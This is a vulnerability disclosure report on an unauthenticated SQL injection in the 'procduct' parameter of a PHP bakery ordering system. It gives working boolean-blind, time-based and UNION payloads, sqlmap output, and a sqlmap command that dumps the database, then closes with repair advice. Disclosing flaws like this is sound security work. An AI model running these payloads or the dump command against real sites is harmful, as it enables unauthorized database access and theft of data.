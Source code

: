 # Itsourcecode Bakery Online Ordering System Using PHP and MySQL Database 1.0 report/index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Bakery Online Ordering System Using PHP and MySQL Database
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/bakery-online-ordering-system/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ report/index.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2017/04/katerina.zip
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'report/index.php' file of the 'Bakery Online Ordering System Using PHP and MySQL Database' project. The reason for this issue is that attackers inject malicious code from the parameter "procduct" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "Bakery Online Ordering System Using PHP and MySQL Database", N3xu5Cr4ck37 discovered a critical SQL injection vulnerability in the "report/index.php" file. This vulnerability stems from insufficient user input validation of the 'procduct' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ time-based blind
+ UNION query
## Vulnerability location:
+ 'procduct' parameter 
## Payload: 
```sql
    procduct=-6813' OR 5515=5515-- VJOV&category=9&start=&end=&search=

    procduct=222' AND (SELECT 2538 FROM (SELECT(SLEEP(5)))NEax)-- tobu&category=9&start=&end=&search=

    procduct=222' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a787171,0x555170497465657470746945716a656245476f566f45596575796d44596a55644a4861686c5a6472,0x7170767a71)-- -&category=9&start=&end=&search=
``` 
```makefile
    Parameter: procduct (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: procduct=-6813' OR 5515=5515-- VJOV&category=9&start=&end=&search=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: procduct=222' AND (SELECT 2538 FROM (SELECT(SLEEP(5)))NEax)-- tobu&category=9&start=&end=&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: procduct=222' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a787171,0x555170497465657470746945716a656245476f566f45596575796d44596a55644a4861686c5a6472,0x7170767a71)-- -&category=9&start=&end=&search=
```
+ ![1](https://github.com/L1OudFd8cl09/CVE/assets/171104034/939abd33-fae4-4307-a1bd-6284fa912a3c)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8101/admin/modules/report/index.php" --data="procduct=222&category=9&start=&end=&search=" --method=POST --dbms=mysql --level=5 --risk=3 --batch --dbs --dump
```
+ ![2](https://github.com/L1OudFd8cl09/CVE/assets/171104034/445535a9-7bc3-4ab3-b318-d7c2f8ff0224)

+ ![3](https://github.com/L1OudFd8cl09/CVE/assets/171104034/4227681f-0e43-4800-8f99-d8543b4d546a)

+ ![4](https://github.com/L1OudFd8cl09/CVE/assets/171104034/f433a52a-a0b9-4334-90db-267298148995)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
